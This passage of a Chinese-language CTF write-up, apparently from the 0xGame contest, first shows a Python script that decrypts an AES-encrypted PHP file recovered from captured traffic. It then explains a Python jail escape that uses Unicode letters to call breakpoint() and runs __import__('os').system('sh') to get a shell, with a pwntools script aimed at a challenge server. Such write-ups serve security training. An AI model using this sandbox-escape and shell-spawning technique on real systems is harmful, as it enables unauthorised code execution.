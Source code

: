 * 然后在139流将传输内容解密，再对cmd命令base64解密可以得到如下
* `cd /d "D:\AAACTF\WEB\phpStudy_64\phpstudy_pro\WWW\upload..\"&openssl enc -aes-128-cbc -in unfinished_hello.php -out secret.php -iv 114514 -K c4d038b4bed09fdb`
* 发现是将unfinished_hello.php经过AES加密得到secret.php，所以可以编写解密脚本
* 这里IV和key都要补零

```
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad

def decrypt_aes_cbc(input_file, output_file, key, iv):

    # 创建 AES 解密器
    cipher = AES.new(key, AES.MODE_CBC, iv)

    # 读取加密文件
    with open(input_file, 'rb') as f:
        encrypted_data = f.read()

    # 解密数据并去除填充
    decrypted_data = unpad(cipher.decrypt(encrypted_data), AES.block_size)

    # 将解密后的数据写入输出文件
    with open(output_file, 'wb') as f:
        f.write(decrypted_data)

# 使用的参数
input_file = 'secret.php'  # 输入加密文件
output_file = 'decrypted_hello.php'  # 输出解密文件
key = b'\xc4\xd0\x38\xb4\xbe\xd0\x9f\xdb\x00\x00\x00\x00\x00\x00\x00\x00'  # 密钥（16 字节，128 位）
iv = b'114514\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00'   # 初始向量（16 字节，128 位）

decrypt_aes_cbc(input_file, output_file, key, iv)

print(f"解密完成，已保存到 {output_file}")
```

* 还原的的文件打开就能得到flag
* 0xGame{8552BB81-D51A-FDCE-2EF1-55EBBEFF9B9C}

## [Week 4] Untouchable flag

* 这是一道jail绕过，注意到限制了所有的英文大小写字母以及数字
* 可以考虑用unicode字符绕过
* 进一步发现输入限制了长度，并且常用的绕过长度的payload是eval(input())长度是13
* 注意到提示Python版本是3.7以上，可以联想到3.7及以上版本更新了breakpoint()用法，刚好长度是12
* payload：𝐛𝐫𝐞𝐚𝐤𝐩𝐨𝐢𝐧𝐭()
* 之后使用常规的payload即可
* `__import__('os').system('sh')`
* 考虑到可能复制会出现乱码，这里直接用pwntool连接

```
from pwn import *

addr = "nc 47.98.178.117 2222".split(" ")
io = remote(addr[1],int(addr[2]))
io.recvuntil(">")
io.sendline("𝐛𝐫𝐞𝐚𝐤𝐩𝐨𝐢𝐧𝐭()")
io.interactive()
```
